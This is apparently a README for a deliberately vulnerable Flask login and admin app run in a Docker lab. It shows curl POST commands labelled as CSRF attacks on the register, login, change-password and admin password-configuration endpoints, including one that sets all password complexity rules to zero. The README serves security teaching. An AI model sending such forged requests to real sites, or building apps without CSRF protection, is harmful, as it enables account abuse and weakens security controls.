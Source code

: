# Safe Register & Login Administration

__Unsafe mode for Demonstration.__

Build with:

__BACKEND:__ _Python 3.9 & Flask_

__FRONTEND:__ _JS, HTML & CSS_

__INTEGRATIONS:__ _Jinja2_

Deployed over Docker, inorder to contain a safety lab environment

## Endpoints

**Home**

* Point for demonstrate a CSRF attacks

**User**

* Registration
* Login
* Change Password
* Logout

**Admin**

* Admin's Menu
    * View all Users List
    * Change Password Configuration

## Home

endpoint: `/`
<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\Home.PNG"/>

## User

### Register

User Register by given _Name_, _E-mail_, _Password_ and _re-Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/register`

<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\Register.PNG"/>\
__CSRF attack on endpoint:__\
````
$ curl -X POST -F 'username=Hacker' -F 'email=yougot@HACKED.com' 
-F 'password=AAaa1212@!12' -F 're_password=AAaa1212@!12' 
http://127.0.0.1:5000/users/register
````
\
__Result of attack:__\
<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\HackerRegistrationDB.PNG"/>

### Login

User Login by given _Name\Email_ and _Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/login`

<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\Login.PNG"/>\
__CSRF attack on endpoint:__\
````
$ curl -X POST -F 'name_email=Hacker' -F'password=AAaa1212@!12' 
http://127.0.0.1:5000/users/login
````
__Result of attack:__\
<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\HackerLogin.PNG"/>

### Change Password

User Change Password by given _Username_, _E-mail_, _New Password_ and _re-Password_

__methods:__ `GET`, `POST`\
__endpoint:__ `/users/change_password`

<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\ChangePassword.PNG"/>\
__CSRF attack on endpoint:__\
````
$ curl -X POST -F 'username=Hacker' -F 'email=yougot@HACKED.com' 
-F 'password=BBbb1212@!12' -F 're_password=BBbb1212@!12' 
http://127.0.0.1:5000/users/change_password
````
__Result of attack:__\
<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\HackerChangePassword.PNG"/>

### Logout

User Logout

__methods:__ `GET`\
__endpoint:__ `/users/logout`
<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\AfterUserLogin.PNG"/>

## Admin

### Admin's Menu

__methods:__ `GET`\
__endpoint:__ `/admin/menu`

<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\AdminMenu.PNG"/> 

### User's List

Display all registered users & __Block/Unblock__ users

__methods:__ `GET`\
__endpoint:__ `/admin/all_users`

<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\UsersList.PNG"/> 

### Password Configuration

Change password configuration:

* Length
* Complexity
* History
* Fail attempts

__methods:__ `GET`, `POST`\
__endpoint:__ `/admin/password_config`

<img src="C:\Users\psylo\PycharmProjects\flaskProject3\README\Photos\PasswordConfiguration.PNG"/> 

__CSRF attack on endpoint:__\
````
$ curl -X POST -F 'upper=0' -F 'lower=0' -F 'digits=0' 
-F 'spec=0' -F 'use_dict=0' -F 'length=0' -F 'history=10' 
-F 'tries=1000'  http://127.0.0.1:5000/admin/password_config
````